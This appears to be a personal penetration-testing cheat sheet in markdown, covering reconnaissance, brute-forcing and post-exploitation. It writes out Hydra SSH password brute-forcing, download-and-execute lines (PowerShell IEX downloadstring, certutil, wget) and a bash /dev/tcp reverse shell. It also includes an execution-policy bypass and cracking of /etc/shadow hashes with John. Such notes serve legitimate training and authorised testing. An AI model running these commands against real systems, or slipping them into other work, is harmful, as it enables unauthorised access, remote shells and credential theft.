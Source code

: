 # Links
## General & Information
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
[HackTricks](https://book.hacktricks.xyz/)
[GTFOBins](https://gtfobins.github.io/)
## Tools
[CyberChef](https://gchq.github.io/CyberChef/)
[CrackStation](https://crackstation.net/)
https://www.revshells.com/
## Downloads
[LinPEAS](https://github.com/peass-ng/PEASS-ng/releases)
[WinPEAS](https://github.com/peass-ng/PEASS-ng/releases)
[PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
# Enumeration
## Nmap
```
nmap -T4 -p- <ip>
```
```
nmap -T4 -A -p <port1>,<port2> <ip>
```
`-sS`: TCP SYN
`-sU`: UDP Scan
## Directories
### Gobuster
```
gobuster dir -u http://<ip>:<port> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### DirBuster
```
dirbuster&
```
## Subdomains
### Fuff
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://<ip> -H "HOST: FUZZ.<domain>.com" [-fc <code>] [-fs <size>]
```
### AMASS
```
amass enum -d <domain>.com [-v] [-o <filename>]
```
# Ports & Services
## SSH
### Bruteforcing with Hydra
```
hydra -l <username> -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<ip>:22 [-t 4] [-V]
```
## Smbclient
List file shares:
```
smbclient -L \\\\<ip>\\
```
Connect to a specific share:
```
smbclient \\\\<ip>\\<share>
```
# File Transfer
## Python Server
Start python server in current directory:
```
python3 -m http.server 8000
```
Linux:
```
wget http://<ip>:8000/linpeas.sh
```
Windows:
```
certutil -urlcache -f http://<ip>:8000/filename.sh
```
```
IEX(New-Object Net.WebClient).downloadstring("http://<ip>/powerup.ps1")
```
## Secure Copy Protocol
Local -> Remote:
```
scp /<local-origin-path> <username>@<remote-host>:/<remote-destination-path>
```
Remote -> Local:
```
scp <username>@<origin-host>:/<remote-origin-path> /<local-destination-path>
```
# Reverse Shells
## Bash
```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
# Netcat Shell Stabilization
Use `python`, `python2` or `python3` depending on the system:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

```
export TERM=xterm
```

Press `Ctrl + Z` to background the netcat shell

```
stty raw -echo; fg
```
# Privilege Escalation
```
LinEnum
sudo -l -> GTFOBins (linux)
Metasploit: local_exploit_suggester (once you have a session)

Windows:
https://www.fuzzysecurity.com/tutorials/16.html
Sherlock Rastamouse
windows-exploit-suggester (python script)
Windows example of Sherlock running:
C:\Users\kostas\Desktop>powershell.exe -exec bypass -Command “& {Import-Module .\sherlock.ps1; Find-AllVulns}”


/etc/shadow & /etc/passwd
unshadow passwd.txt shadow.txt > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```
# Hash Cracking
## John the Ripper
## Hydra
